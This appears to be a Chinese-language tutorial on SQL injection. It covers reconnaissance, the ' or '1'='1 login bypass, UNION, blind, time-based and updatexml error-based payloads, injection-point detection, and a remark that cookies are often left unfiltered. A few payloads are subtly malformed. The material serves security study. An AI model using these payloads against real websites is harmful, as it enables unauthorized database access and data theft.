

sql注入的准备工作
-
确定 Web 应用程序所使用的技术 可以考察 Web 页面的页脚，查看错误页面，检查页面源代码，或者使用诸如 Nessus、AWVS、 APPSCAN 等工具来进行刺探。
-
确定所有可能的输入方式 Web 应用的用户输入方式比较多，其中一些用户输入方式是很明显的，如 HTML 表单； 另外，攻击者可以通过隐藏的 HTML 表单输入、HTTP 头部、cookies、甚至对用户不可见的 后端AJAX 请求来跟 Web 应用进行交互。 一般来说，所有 HTTP 的 GET 和 POST 都应当作用户输入。 为了找出一个 Web 应用所有可能的用户输入，我们可以求助于 Web 代理，如 Burp 等。
- 查找可以用于注入的用户输入 在找出所有用户输入方式后，就要对这些输入方式进行筛选，找出其中可以注入命令的那些输入方式。 多多留意 Web 应用的错误页面 通常只要带有输入提交的动态网页，并且动态网页访问数据库，都是潜在的探测点
# 万能密码:
'or '1'='1
## 源语句：
select * from user where name='xx' and pwd='hhh';
## 目标语句：
select * from user where name='' or '1'='1' and pwd='' or '1'='1'
#注入语句样例
and 1=2 union select 1,2,3 --
select user() regexp '^ro'
ascii(substr((select user()),1,1))=114
if(ascii(substr((select user()),1,1))=114,0,sleep 5)
ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=9
updatexml(1,concat(0x7e,(select @@version),0x7e),1)
手工检测 SQL 注入点
最常用的 SQL 注入点判断方法，是在网站中寻找如下形式的网页链接。
***.com (ASP 注入)
***.com (php 注入)
***.com (jsp 注入)
***.com (aspx 注入)
***.com （有多个参数，需要区分用哪个参数来验证注入）
***.com 伪静态
***.com 伪静态
判断是否存在sql注入
如何判断某个网页链接是否存在 SQL 注入漏洞呢?通常有两种检测方法。
1. 单引号法
第一种检测 SQL 注入漏洞是否存在的方法是“单引号”法。方法很简单，直接在浏览器地址栏中的网址链接后加上一个单引号，如果页面不能正常显示，浏览器返回一些异常信息， 则说明该链接可能存在注入漏洞。
2. 1=1 和 1=2 法
很多时候检测提交包含引号的链接时，会提示非法字符，或直接不返回任何信息，这种情况下可以如下尝试：
~~~sql
#先在链接地址后加上 and 1=1，提交
***.com/xx.php?id=xx and 1=1
#再替换为and 1=2，提交
***.com/xx.php?id=xx and 1=2
#如果返回不同的页面， 那么说明存在 SQL 注入漏洞。
~~~
3. 两种方法的组合变种
sql
'and 1=1 / and 1=2
'and '1'='1 / and '1'='2
'and 1 like 1 / and 1 like 2
4. 更多方法组合的常用判断语句
在插入的注入语句后面，增加-+或#,用以注释掉后面的正常语句
#有时会被过滤，因此可以使用url编码，将#表文%23
单引号也有可能会被过滤，可以换成双引号
可以在引号后加一两个括号，用以实现可能的语句闭合，如
SQL
or 1=1–+
or 1=1#
or 1=1%23
'or 1=1–+
"or 1=1–+
)or 1=1–+
')or 1=1–+
") or 1=1–+
"))or 1=1–+
注入分类
-
数字型注入：
or 1=1当输入的参数为整型时，如ID、年龄、页码等，如果存在注入漏洞，则可以认为是数字型注入。这种数字型注入最多出现在ASP、PHP等弱类型语言中，弱类型语言会自动推导变量类型， 例如，参数id=8，PHP会自动推导变量id的数据类型为int类型，那么id=8 and 1=1，则会推导为string类型，这是弱类型语言的特性。 而对于Java、C#这类强类型语言，如果试图把一个字符串转换为int类型，则会抛出异常，无法继续执行。所以，强类型的语言很少存在数字型注入漏洞。
-
字符型注入：
’ or 1=1#当输入参数为字符串时，称为字符型。数字型与字符型注入最大的区别在于：数字型不需要单引号闭合，而字符串类型一般要使用单引号来闭合。 -
搜索型注入：
%xxx% or 1=1 #%’当在搜索框搜索的时候，称为搜索型。搜索类型一般要使用百分号来闭合。 ~~~SQL select * from 表名 where 字段名 like ‘%（对应值）%’; # 源 select * from 表名 where 字段名 like ‘%（对应值）or 1=1 #% %’; # 目标 ~~~ -
XX型注入：
xx’) or 1=1#这种情况很少见，是程序员不规则操作造成的，没有找到例子。
注入提交方式
三种方式注入方法 1. post 可通过安装火狐浏览器插件（hackbar）或 Burp 工具来完成 2. get 一般直接通过浏览器地址栏提交 3. cookie 一般通 Burp 工具来完成,修改cookie，进行一个注入
请求头中可以利用的点

ASP和PHP中的调用函数# ASP
request （全部接受）
request.querystring （接受 get）
request.form （接受 post）
request.cookie（接受 cookie）
# PHP:
$_REQUEST（全部接受）
$_GET(接受get)
$_POST （接受 post）
$_COOKIE（接受 cookie）
#一般中间件 waf 防火墙，对get防护最高，其次是post，最后是cookie
#很多人在写注入防御代码时，写了post、get的，但是没有过滤cookie的